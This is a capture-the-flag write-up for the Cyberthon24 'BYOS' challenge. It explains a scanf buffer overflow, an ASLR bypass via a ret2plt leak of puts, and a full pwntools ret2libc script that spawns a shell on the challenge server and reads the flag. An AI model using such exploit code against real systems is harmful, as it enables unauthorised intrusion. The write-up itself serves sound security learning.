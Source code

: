 # BYOS

## Problem Statement

Four. Times. In. A. Row. Okay that's it, i'm just going to remove almost all functionalities in my program. Can't
exploit it if there's nothing to exploit right?

Interact with the service at: `chals.t.cyberthon24.ctf.sg:33021`

Concept(s) Required:

- Address Space Layout Randomization
- Global Offset Table
- [Ret2Libc](https://blog.vero.site/post/baby-boi)

Note: once you get a shell, the flag.txt can be found in the user's home directory.

## Solution

Inspecting the source file,

```c
int main()
{
    char input[256];

   ...

    scanf("%s", input);
}
```

Another buffer overflow. But this time, we have to call for the shell ourselves through `libc`. They have also
conveniently given us the `libc` that the binary was compiled with.
ASLR is enabled, so we're going to have to leak ASLR base somehow, and the only logical way is a `ret2plt`.

`ret2plt` is a common technique that involves calling `puts@plt` and passing the GOT entry of puts as a parameter. This
causes puts to print out its own address in libc. You can then use it to calculate the offset of `libc` in memory, and
hence obtain the address of `execve` or `system`. You then set the return address to the function you are exploiting in
order to call it again and enable you to actually call for the shell.

First, we find the instruction pointer offset, then the libc offset, and finally call `execve` to give ourselves
shell. `pwntools` is extremely helpful for this:

```python
from pwn import *

elf = context.binary = ELF("./byos", checksec=False)
libc = ELF("./libc.so.6", checksec=False)

p = process()
p.sendlineafter(b'=> ', cyclic(500))
p.wait()

offset = cyclic_find(p.corefile.read(p.corefile.sp, 4))
log.success("IP Offset: {}".format(offset))

r = remote("chals.t.cyberthon24.ctf.sg", 33021)

rop = ROP(elf)
rop.call(elf.plt['puts'], [elf.got['puts']])
rop.raw(elf.sym['main'])
payload = flat({offset: rop.chain()})

r.sendlineafter(b'=> ', payload)

puts_addr = u64(r.recvline().strip().ljust(8, b'\x00'))
log.success("Puts address: {}".format(hex(puts_addr)))
libc.address = puts_addr - libc.sym['puts']
log.success("LIBC address: {}".format(hex(libc.address)))

rop = ROP([elf, libc])
bin_sh = next(libc.search(b"/bin/sh\x00"))
rop.execve(bin_sh, 0, 0)
payload = flat({offset: rop.chain()})

r.sendlineafter(b'=> ', payload)
r.sendline(b'cat home/byos/flag.txt')

r.interactive()
```
